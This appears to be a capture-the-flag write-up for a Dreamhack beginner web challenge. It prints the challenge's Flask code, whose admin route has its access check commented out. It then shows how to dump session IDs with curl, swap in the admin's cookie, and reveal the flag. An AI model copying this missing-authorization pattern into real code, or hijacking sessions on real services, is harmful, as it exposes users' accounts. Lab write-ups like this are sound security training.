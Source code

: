 ```yaml
---
title: session-basic
author: thanguyen165
date: 2023-01-01 07:00:00 +0700
categories: [Practice, dreamhack]
tags: [Web Exploitation, dreamhack]
---
```


* Level: 1
* Link: [https://dreamhack.io/wargame/challenges/409/](https://dreamhack.io/wargame/challenges/409/)

## Description
>
> It is a simple login service that manages authentication status with cookies and sessions.
> If you successfully log in with the admin account, you can get the flag.
>
> The flag type is DH{...}.

### Attached

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, make_response, redirect, url_for

app = Flask(__name__)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

users = {
    'guest': 'guest',
    'user': 'user1234',
    'admin': FLAG
}


# this is our session storage
session_storage = {
}


@app.route('/')
def index():
    session_id = request.cookies.get('sessionid', None)
    try:
        # get username from session_storage
        username = session_storage[session_id]
    except KeyError:
        return render_template('index.html')

    return render_template('index.html', text=f'Hello {username}, {"flag is " + FLAG if username == "admin" else "you are not admin"}')


@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    elif request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        try:
            # you cannot know admin's pw
            pw = users[username]
        except:
            return '<script>alert("not found user");history.go(-1);</script>'
        if pw == password:
            resp = make_response(redirect(url_for('index')) )
            session_id = os.urandom(32).hex()
            session_storage[session_id] = username
            resp.set_cookie('sessionid', session_id)
            return resp
        return '<script>alert("wrong password");history.go(-1);</script>'


@app.route('/admin')
def admin():
    # developer's note: review below commented code and uncomment it (TODO)

    #session_id = request.cookies.get('sessionid', None)
    #username = session_storage[session_id]
    #if username != 'admin':
    #    return render_template('index.html')

    return session_storage


if __name__ == '__main__':
    import os
    # create admin sessionid and save it to our storage
    # and also you cannot reveal admin's sesseionid by brute forcing!!! haha
    session_storage[os.urandom(32).hex()] = 'admin'
    print(session_storage)
    app.run(host='0.0.0.0', port=8000)

```

## Analyzation

The server did not block users when accessing admin page

```python
@app.route('/admin')
def admin():
    # developer's note: review below commented code and uncomment it (TODO)

    #session_id = request.cookies.get('sessionid', None)
    #username = session_storage[session_id]
    #if username != 'admin':
    #    return render_template('index.html')

    return session_storage
```

So just get in that page.

## Solution

```sh
curl http://host3.dreamhack.games:21057/admin
```

```javascript
{"008a1e27e3bb2fc6d0deb79b5c46044abc4d497347ba0eb658c195420fe742da":"admin",
"24fd326c4b70adad5b9bb337f3435e1d574171601fbdf42238136dd3f7515fa2":"guest",
"8c78158912071023499de32ae33de73a1dcbe253fb17a49506e84d5f944d929a":"guest"}
```

Now we just login with the given account in the server 
```
'guest': 'guest'
```
Then change the cookie to admin's cookie.

The flag is
```
DH{8f3d86d1134c26fedf7c4c3ecd563aae3da98d5c}
```